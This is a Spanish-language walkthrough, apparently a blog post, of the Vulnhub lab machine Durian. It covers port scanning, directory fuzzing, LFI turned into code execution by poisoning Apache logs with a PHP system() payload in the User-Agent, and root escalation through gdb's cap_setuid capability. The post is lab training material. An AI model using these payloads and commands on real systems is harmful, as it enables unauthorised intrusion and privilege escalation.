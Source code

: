 ```yaml
---
layout: single
title: Durian - Vulnhub
date: 25/10/2023
classes: wide
header:
  teaser:

tags:
  - LFI to RCE - Abusing /proc/self/fd/X + Log Poisoning
  - Abusing capabilities (cap_setuid+ep on gdb binary)
  - Web Enumeration
  - fácil
  - linux
---
```


Para poder vulnerar esta máquina primero debemos hacer una enumeración web, en la cual obtendremos la dirección de un recurso PHP, del cual nos podemos aprovechar para poder llevar a cabo el LFI, a través de ahí contaminar el log de acceso de apache para poder ejecutar nuestro código malicioso PHP y convertirlo en un RCE, entablandonos una reverse shell para posterior a ello escalar privilegios,.


# PortScan

```
nmap -sT -p22,80,7080,8088 192.168.204.152
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-25 18:23 AST
Nmap scan report for 192.168.204.152
Host is up (0.00080s latency).

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
7080/tcp open  empowerid
8088/tcp open  radan-http
MAC Address: 00:0C:29:CC:43:7D (VMware)
                                     
```


# Sitio Web

![](/assets/images/durian/Pasted image 20231025182531.png)

# Fuzzing de Sitio Web.

```
gobuster dir -u http://192.168.204.152 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
```

Que nos reportará los siguientes directorios de la máquina:
```
===============================================================
/icons/               (Status: 403) [Size: 280]
Progress: 90087 / 220561 (40.84%)             [ERROR] 2023/10/25 18:26:31 [!] Get "http://192.168.204.152/blog/": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
/server-status/       (Status: 403) [Size: 280]
/cgi-data/            (Status: 200) [Size: 953]
                                               
```

Una vez vayamos al directorio "/cgi-data" veremos un recurso **.PHP** que dentro tendrá en comentarios como funciona el código.

![](/assets/images/durian/Pasted image 20231025182939.png)

es decir, que al poner el parámetro "**?file=**"  podemos aprovecharnos para hacer un LFI.

# LFI > Log Poisoning

Hacemos una petición para poder identificarla en el log.
```
curl -s -X GET "http://192.168.204.153/probando" -H "User-Agent: <?php system('whoami'); ?>"
```

![](/assets/images/durian/Pasted image 20231025184632.png)
Hemos contaminado el Log, y también está ejecutando el código **.PHP**, por lo que podríamos subir un recurso qué podremos controlar desde la URL para entablarnos una reverse shell.

# BurpSuite 

Nos aprovechamos del proxy Burpsuite, para agregar el código .PHP malicioso en el recurso que subiremos, para luego poder desde la URL poder controlar el comando, volviéndolo así un RCE.

Interceptamos esta petición:

![](/assets/images/durian/Pasted image 20231025185034.png)

Para modificar el "**User-Agent:**" desde el **Burpsuite** con el código .PHP malicioso qué deseemos, en este caso unos para controlar el código que queramos ejecutar desde la URL:

![](/assets/images/durian/Pasted image 20231025185353.png)

Para controlar desde la URL la ejecución de comando, como podemos ver:

![](/assets/images/durian/Pasted image 20231025185808.png]])
Y desde la URL ya podríamos entablarnos una Reverse Shell.

# Escalada de Privilegios.

Buscamos capabilites.
```
www-data@durian:/tmp$ getcap -r / 2>/dev/null
/usr/bin/gdb = cap_setuid+ep
/usr/bin/ping = cap_net_raw+ep
```
Vemos que está la la "**cap_setuid+ep**", qué investigando en el recurso [GTFOBINS](https://gtfobins.github.io/gtfobins/gdb/#capabilities) podemos volvernos **Root** aprovechándonos de esta capabilitie en "gdb".

```
gdb -nx -ex 'python import os; os.setuid(0)' -ex '!bash' -ex quit
```

![](/assets/images/durian/Pasted image 20231025195554.png)






